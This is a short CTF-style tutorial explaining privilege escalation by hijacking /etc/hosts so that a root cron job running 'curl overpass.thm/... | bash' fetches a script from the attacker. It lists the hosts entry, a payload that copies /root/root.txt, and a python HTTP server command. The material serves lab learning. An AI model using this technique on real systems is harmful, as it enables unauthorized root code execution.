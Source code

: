 # Host Redirection Privilege Escalation

## What is HRPE 

If you encounter a situation where there's a script, or other system process that is calling an external web address, e.g. this crontab example:

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

And also have control over the /etc/hosts file, you can set that domain to be your attacking machine, so instead of going directly to the web and getting the address specified. The file is pulled from your machine.

## How does this work

The /etc/hosts file controls the local resolution of IP addresses and web addresses. If we control that, we can set the overpass.thm url to our IP, for example:

## Exploiting HRPE

1. We would set our /etc/hosts file to include:

	(Attacker IP)	(URL to exploit)
	10.8.7.69	overpass.thm

2. Then, on our attacker machine, we would mirror the directory structure required by the request, e.g.

	cd /tmp
	mkdir downloads
	mkdir downloads/src/
	echo "cp /root/root.txt /tmp" > downloads/src/buildscript.sh

3. Finally, we would bring up an http server

	cd ../../
	sudo python -m http.server 80
